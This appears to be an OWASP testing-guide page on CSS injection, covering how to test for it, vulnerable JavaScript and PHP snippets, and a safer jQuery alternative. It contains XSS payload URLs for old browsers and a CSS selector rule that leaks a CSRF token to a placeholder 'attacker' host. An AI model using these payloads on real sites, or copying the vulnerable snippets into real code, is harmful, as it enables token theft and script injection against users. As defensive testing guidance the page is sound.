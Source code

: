 Summary
-------

A CSS Injection vulnerability involves the ability to inject arbitrary CSS code in the context of a trusted web site, and this will be rendered inside the victim's browser. The impact of such a vulnerability may vary on the basis of the supplied CSS payload: it could lead to Cross-Site Scripting in particular circumstances, to data exfiltration in the sense of extracting sensitive data or to UI modifications.

How to Test
-----------

Such a vulnerability occurs when the application allows to supply user-generated CSS or it is possible to somehow interfere with the legit stylesheets. Injecting code in the CSS context gives the attacker the possibility to execute JavaScript in certain conditions as well as extracting sensitive values through CSS selectors and functions able to generate HTTP requests. Actually, giving the users the possibility to customize their own personal pages by using custom CSS files results in a considerable risk, and should be definitely avoided.

The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the “location.hash” (source) which reaches the “cssText” function (sink). This particular case may lead to DOMXSS in older browser versions, such as Opera, Internet Explorer and Firefox; for reference see DOM XSS Wiki, section “Style Sinks”.

    <a id="a1">Click me</a> 
    <script> 
      if (location.hash.slice(1)) { 
        document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1); 
      } 
    </script> 

Specifically the attacker could target the victim by asking her to visit the following URLs:\

-   www.victim.com/\#red;-o-link:'<javascript:alert(1)>';-o-link-source:current; (Opera \[8,12\])
-   www.victim.com/\#red;-:expression(alert(URL=1)); (IE 7/8)

The same vulnerability may appear in the case of classical reflected XSS in which for instance the PHP code looks like the following:

    <style> 
    p { 
      color: <?php echo $_GET['color']; ?>; 
      text-align: center; 
    } 
    </style> 

Much more interesting attack scenarios involve the possibility to extract data through the adoption of pure CSS rules. Such attacks can be conducted through CSS selectors and leading for instance to grab anti-CSRF tokens, as follows. In particular, input\[name=csrf\_token\]\[value=\^a\] represents an element with the attribute “name” set “csrf\_token” and whose attribute “value” starts with “a”. By detecting the length of the attribute “value”, it is possible to carry out a brute force attack against it and send its value to the attacker's domain.

    <style> 
    input[name=csrf_token][value=^a] { 
      background-image: url(http://attacker/log?a); 
    } 
    </style> 

Much more modern attacks involving a combination of SVG, CSS and HTML5 have been proven feasible, therefore we recommend to see the References section for details.

### Black Box testing

We are referring to client-side testing, therefore black box testing is not usually performed since access to the source code is always available as it needs to be sent to the client to be executed. However, it may happen that the user is given a certain degree of freedom in terms of possibilities to supply HTML code; in that case it is required to test whether no CSS injections are possible: tags like “link” and “style” should be disallowed, as well as attributes “style”.

### Gray Box testing

**Testing for CSS Injection vulnerabilities:**\
Manual testing needs to be conducted and the JavaScript code analyzed in order to understand whether the attackers can inject its own content in CSS context. In particular we should be interested in how the website returns CSS rules on the basis of the inputs.

The following is a basic example:

    <a id="a1">Click me</a> 
    <b>Hi</b> 
    <script> 
      $("a").click(function(){ 
        $("b").attr("style","color: " + location.hash.slice(1)); 
      }); 
    </script> 

The above code contains a source “location.hash” that is controlled by the attacker that can inject directly in the attribute “style” of an HTML element. As mentioned above, this may lead to different results on the basis of the adopted browser and the supplied payload.

It is recommended that testers use the jQuery function css(property, value) in such circumstances as follows, since this would disallow any damaging injections. In general, we recommend to use always a whitelist of allowed characters any time the input is reflected in the CSS context.

    <a id="a1">Click me</a> 
    <b>Hi</b> 
    <script> 
      $("a").click(function(){ 
        $("b").css("color",location.hash.slice(1)); 
      }); 
    </script> 

References
----------

**OWASP Resources**

-   [DOM based XSS Prevention Cheat Sheet](DOM_based_XSS_Prevention_Cheat_Sheet "wikilink")
-   DOMXSS Wiki - <https://code.google.com/p/domxsswiki/wiki/CssText>

**Presentations**\
\* DOM Xss Identification and Exploitation, Stefano Di Paola - <http://dominator.googlecode.com/files/DOMXss_Identification_and_exploitation.pdf>

-   Got Your Nose! How To Steal Your Precious Data Without Using Scripts, Mario Heiderich - <http://www.youtube.com/watch?v=FIQvAaZj_HA>
-   Bypassing Content-Security-Policy, Alex Kouzemtchenko - <http://ruxcon.org.au/assets/slides/CSP-kuza55.pptx>

**Proof of Concepts**\
\* Password “cracker” via CSS and HTML5 - <http://html5sec.org/invalid/?length=25>

-   CSS attribute reading - <http://eaea.sirdarckcat.net/cssar/v2/>

